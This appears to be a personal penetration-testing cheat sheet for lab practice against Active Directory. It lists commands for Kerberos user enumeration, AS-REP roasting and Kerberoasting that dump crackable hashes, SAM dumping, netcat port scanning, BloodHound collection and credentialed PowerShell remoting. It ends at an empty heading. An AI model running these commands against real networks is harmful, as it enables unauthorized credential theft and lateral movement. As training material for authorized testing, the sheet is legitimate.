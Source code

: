 ##  Kerberos Enumeration

-   /PDATA/offsec-prep/LINUX/kerbrute_linux_amd64 userenum -d hutch.offsec users.txt --dc $IP

##  impacket-GetAdUsers.py
-   impacket-GetADUsers -all hutch.offsec/ -dc-ip $IP

##  impacket-GetNPUsers
-   impacket-GetNPUsers hutch.offsec/ -usersfile users -format hashcat -outputfile hashes_hutch -dc-ip $IP
-   impacket-GetNPUsers htb.local/ -dc-ip 10.129.255.128 -usersfile users.txt -format john -outputfile hashes

##  impacket-GetUserSPNs.py
-   impacket-GetUserSPNs -request hutch.offsec/username 

##	BruteForce


>   impacket-samrdump 10.129.96.60


#   Post Enumeration [PrevEsc]

>   PORT scaning 

-   nc -z -v 10.10.8.8 20-80

##  BloodHound Setup

1.  Upload and run sharphound.exe on target `[SharpHound.exe --collectionmethods ALL]-[SharpHound.exe -c ALL]`
2.  Take back the zip file in our kali box
3.  locate neo4j | grep auth    [remove-the-files] [password-reset]
3.  run `neo4j console`
4.  run bloodhound 
5.  upload the zip file

##  Powershell Remoting

-   Enter-PSSession -ComputerName workstation-02
-   Enter-PSSession -ComputerName workstation-02 -Credential domain\username    [work-on-gui]
-   Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName workstation-02 -Credential domain\username    [work-on-gui]

-   `[PASS the actual $credential object if you want to work it on CMD prompt]`

##  Domain Enumeration
